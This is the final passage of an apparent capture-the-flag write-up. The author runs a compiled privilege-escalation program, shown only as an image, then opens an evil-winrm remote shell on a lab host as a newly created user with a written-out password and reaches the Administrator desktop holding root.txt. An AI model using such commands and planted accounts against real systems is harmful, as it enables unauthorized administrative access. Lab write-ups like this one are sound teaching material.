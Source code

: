 After compile it just run the script like that :

![alt text](../assets/image_sidecar/final.png)

And connect with the new user :

```bash
evil-winrm -u 'ethicxz' -p 'N3wP@ssw0rd' -i 10.10.210.69

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ethicxz\Documents> cd /Users
*Evil-WinRM* PS C:\Users> cd Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         12/2/2023   3:02 AM             74 root.txt
```
Nice !!

If you have any comments on this write up or any questions you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'

